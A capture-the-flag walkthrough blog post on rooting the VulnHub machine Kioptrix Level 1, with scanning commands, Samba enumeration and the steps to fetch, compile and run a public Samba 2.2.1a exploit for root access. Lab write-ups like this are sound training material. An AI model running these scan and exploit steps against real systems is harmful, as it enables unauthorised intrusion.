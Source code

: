 ```yaml
---
title: "Vulhub-Kiotrix Level 1 Walkthrough"
date: 2024-01-24
categories: [Vulnhub, CTF]
image: /assets/Kioptrix_Cover.jpg
tags: [Kioptrix, Boot2Root, Penetration Testing, Samba Exploit]
description: "A walkthrough for hacking the vulnerable machine Kioptrix Level 1 from VulnHub."
active: true
retire_date: 2025-05-10T00:00:00Z

---
```


## Introduction
Welcome to the Kiotrix Level 1 challenge. This is a walkthrough for hacking the vulnerable machine **Kioptrix Level 1** from VulnHub. There are various ways to root this box, and I will keep the process clear and concise. Let's get started.

## Challenge Details
- **Name:** Kiotrix Level 1  
- **Category:** Boot2Root  
- **Difficulty:** Easy  

## Prerequisites
Before you begin, ensure that you have the following:
- **Kali Linux** or any other preferred penetration testing distribution.
- **Kioptrix Level 1 VM** installed and running.
![Kioptrix VM Running](../assets/1kioprix.png)
## Walkthrough
### Step 1: Reconnaissance
#### Network Discovery and Setup
Execute the following command on your attack machine to check if Kioptrix Level 1 is on the network:
```bash
arp-scan -l
```
If Kioptrix is not detected, troubleshoot and ensure it is installed correctly.
![Kioptrix VM Running](../assets/2kioptrix.png)
Identified IP address:
```bash
192.168.10.171
```

### Step 2: Enumeration
Run an Nmap scan to identify open ports and services:
```bash
nmap -A -p- -T4 192.168.10.171
```
The results show that **port 80 is open**, displaying a test page in the browser.
![Kioptrix VM Running](../assets/4kioptrix.png)
![Kioptrix VM Running](../assets/3kioptrix.png)
Additionally, **Samba service** is detected, which will be crucial for privilege escalation.

### Step 3: Samba Enumeration
Utilize `enum4linux` and `smbclient` to confirm the presence of Samba on the remote host.
![Kioptrix VM Running](../assets/5kioptrix.png)
Start Metasploit and use the auxiliary scanner:
![Kioptrix VM Running](../assets/6kioptrix.png)
```bash
msfconsole
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.10.171
run
```
![Kioptrix VM Running](../assets/6kioptrix.png)
The results show that **Samba 2.2.1a** is running, which is vulnerable to multiple exploits.

### Step 4: Exploitation - Samba 2.2.1a
Search for available exploits using `searchsploit`:
```bash
searchsploit samba 2.2.1a
```
The results show multiple exploits, and we choose `multiple/remote/10.c`.
![Kioptrix VM Running](../assets/9kioptrix.png)
Download the exploit:
```bash
searchsploit -m multiple/remote/10.c
```
![Kioptrix VM Running](../assets/10kioptrix.png)
Compile the exploit:
```bash
gcc -o sambaexploit 10.c
```
![Kioptrix VM Running](../assets/11kioptrix.png)
Execute the exploit:
```bash
./sambaexploit -b 192.168.10.171
```
![Kioptrix VM Running](../assets/12kioptrix.png)
After execution, verify root access:
```bash
whoami
```
![Kioptrix VM Running](../assets/13kioptrix.png)
![Kioptrix VM Running](../assets/14kioptrix.png)
## Conclusion
You've successfully completed Kiotrix Level 1. This walkthrough provided a step-by-step guide to solving the challenge. If you encountered any issues or have questions, feel free to reach out!

Remember to document and understand the techniques used, as they may be helpful in future CTFs. **Happy hacking!**

